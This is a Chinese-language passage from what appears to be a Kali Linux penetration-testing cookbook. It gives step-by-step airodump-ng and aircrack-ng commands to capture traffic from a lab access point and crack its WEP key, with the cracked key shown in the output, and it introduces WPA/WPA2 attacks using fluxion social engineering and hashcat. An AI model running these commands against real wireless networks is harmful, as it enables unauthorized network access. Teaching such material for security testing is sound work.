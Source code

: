 # 如何操作……

这是我们用来查找和暴露 WEP 密钥的过程：

1.  根据在*扫描无线网络*部分中进行的扫描，我们知道`Kali_Two`和`Kali_Three`的 SSID 都在`channel 11`上运行 WEP，因此它们将是本节的目标。

1.  使用`airodump-ng`，我们将使用以下命令行从`Kali_Two`开始数据捕获：

```
root@kali:~/wireless# airodump-ng -c 11 --bssid 68:86:A7:1D:6D:84 -w KaliCookbook_8.3 wlan0
```

1.  `-c`参数指定频道（`channel 11`），BSSID 是 AP 的 MAC 地址（`68:86:A7:1D:6D:84`）。我们将把`pcap`文件写入与前面相同的目录，并在`wlan0mon`上进行监听。

1.  一旦启动，收集足够的数据包来暴露 IV 可能需要很长时间——通常在 250,000 到 1,500,000 之间，具体取决于密钥长度。你可以在`airodump-ng`的进度指示器中看到进度，我们会关注`#Data`列：

![](img/ecc66a60-1963-4f8b-90f0-9da806c90674.png)airodump-ng 进度 如果你想使用已知的有效数据文件来运行`aircrack-ng`，有很多可用的文件，此外，还有更多关于高级`aircrack-ng`的详细信息，访问此地址：[`www.aircrack-ng.org/doku.php?id=aircrack-ng`](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)。

1.  一旦你收集了足够的 IV（初始化向量），可以开始破解过程，使用以下命令启动：

```
root@kali:~/wireless# aircrack-ng -b 68:86:A7:1D:6D:84 KaliCookbook_8.3-01.cap
Opening KaliCookbook_8.3.cap
 Read 563244 packets.

# BSSID             ESSID      Encryption

1 68:86:A7:1D:6D:84            WEP (563244 IVs)

Choosing first network as target.
```

1.  破解 WEP 密钥的过程将开始，具体时间取决于收集的数据量和使用的密钥长度，这可能需要一些时间。然而，完成后，你将看到如下显示：

```
 KEY FOUND! [ kali2 ] 
 Probability: 100%
```

在我们的例子中，WEP 密钥是`kali2`，现在可以直接用来连接到无线网络，作为已认证的终端。

# 获取 WPA/WPA2 密钥

本节将带你了解使用两种不同方法收集 WPA 密钥的过程：

+   通过 SSID 篡改和 fluxion 进行社会工程学攻击

+   使用`hashcat`对收集的数据进行暴力破解
